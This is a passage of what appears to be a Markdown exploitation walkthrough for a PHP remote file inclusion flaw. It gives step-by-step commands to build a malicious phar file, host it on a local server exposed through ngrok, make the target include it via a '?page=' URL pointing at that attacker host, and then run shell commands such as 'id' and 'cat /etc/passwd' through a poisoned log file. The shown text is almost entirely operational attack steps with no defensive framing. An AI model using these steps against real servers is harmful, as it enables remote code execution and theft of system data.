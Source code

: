   - **Generate `hack.phar`**:

    ```bash
    php exploit.php
    ```

    - This creates `hack.phar` with malicious metadata.

#### **c. Host the Malicious Phar**

- **Set Up a Local Web Server**:

  ```bash
  php -S 0.0.0.0:8000
  ```

- Ensure `hack.phar` is accessible from your machine's IP at `http://<YOUR_IP>:8000/hack.phar`.

#### **d. Expose Your Local Server to the Internet**

- **Option 1: Use `ngrok`** (easier)

  - Install `ngrok` and expose your local server:

    ```bash
    ngrok http 8000
    ```

  - Note the `Forwarding` URL provided by `ngrok`, e.g., `http://abcdef123.ngrok.io`.

- **Option 2: Use a VPS or External Server**

  - Upload `hack.phar` to a server where it can be accessed publicly.

#### **e. Exploit the Vulnerability**

- **Trigger the Inclusion of the Phar File**:

  ```bash
  http://<EXTERNAL_IP>/?page=http://abcdef123.ngrok.io/hack.phar
  ```

  - Replace with your `ngrok` URL or the URL where `hack.phar` is hosted.

- **Execute Commands**:

  - Now, access:

    ```bash
    http://<EXTERNAL_IP>/tmp/app.log?cmd=id
    ```

  - The `app.log` file now contains PHP code that gets executed, allowing you to run commands.

- **Example**:

  - To get the contents of `/etc/passwd`:

    ```bash
    http://<EXTERNAL_IP>/tmp/app.log?cmd=cat /etc/passwd
    ```
